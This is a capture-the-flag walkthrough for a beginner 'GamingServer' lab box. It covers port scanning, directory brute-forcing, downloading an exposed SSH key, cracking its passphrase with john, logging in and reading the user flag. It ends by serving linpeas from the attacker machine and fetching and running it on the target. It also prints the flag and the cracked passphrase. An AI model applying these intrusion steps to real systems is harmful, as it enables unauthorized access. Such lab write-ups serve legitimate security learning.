 # GamingServer

An Easy Boot2Root box for beginners

Connect with server and start.

We start with RECON

1. Port Scanning
```
rustscan -a 10.10.174.135 -r 1-65535 --ulimit 5000 -- -sV -T4 -oN rustscan_nmap.txt
```
Result
```
[~] The config file is expected to be at "/home/srishti/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.174.135:22
Open 10.10.174.135:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -T4 -oN rustscan_nmap.txt" on ip 10.10.174.135
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 20:21 IST
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 20:21
Scanning 10.10.174.135 [4 ports]
Completed Ping Scan at 20:21, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:21
Completed Parallel DNS resolution of 1 host. at 20:21, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:21
Scanning 10.10.174.135 [2 ports]
Discovered open port 22/tcp on 10.10.174.135
Discovered open port 80/tcp on 10.10.174.135
Completed SYN Stealth Scan at 20:21, 0.24s elapsed (2 total ports)
Initiating Service scan at 20:21
Scanning 2 services on 10.10.174.135
Completed Service scan at 20:21, 6.49s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.174.135.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.86s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.83s elapsed
Nmap scan report for 10.10.174.135
Host is up, received timestamp-reply ttl 60 (0.19s latency).
Scanned at 2025-07-03 20:21:12 IST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
So two ports are open port 22 and port 80

2. Website recon
We go to the website at port 80 and it shows us a webpage.

Will hit the Ctrl+U to view the source page.

So, in comment we saw a comment which talking to John. So, maybe it is a username.

We also have many options to go.
When we click on the Draagon lore and we get the upload option.
When we click it, it takes us to the upload directory which have following directories.

 We have a directory which include the password, so we save it on the pc.
 ```
 wget "http://10.10.174.135/uploads/dict.lst"
```

3. Directory Search
```
 gobuster dir -u http://10.10.174.135/ -w /usr/share/wordlists/rockyou.txt
```
We found the directory \secret

We have a secret key
RSA key

```
wget "http://10.10.174.135/secret/secretKey"
```
Run the command to make key accessible
```
chmod 600 secretKey
```
In our rustscan, we see there is ssh open

Now we have potential username, password and key

We can try ssh into the machine.

And the key need a passphrase
So, we have password list we will use john the ripper

```
ssh2john secretKey > john.txt
```
```
john john.txt --wordlist=dict.lst
```

And we get the password - `letmein`

So we start the ssh

```
ssh -i secretKey john@10.10.174.135
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  3 16:12:39 UTC 2025

  System load:  0.0               Processes:           105
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for ens5: 10.10.174.135
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```
And we get the first user flag here

What is the user flag?
`a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`

Now we can do the further enumeration

We run the linpeas in the server to find vulnerabities anf find their is lxd vulnerability.
On attacker terminal
```
cd /usr/share/peass/linpeas
python3 -m http.server 8000
```
On target
```
cd /dev/shm
wget http://<your-IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linlog.txt
```















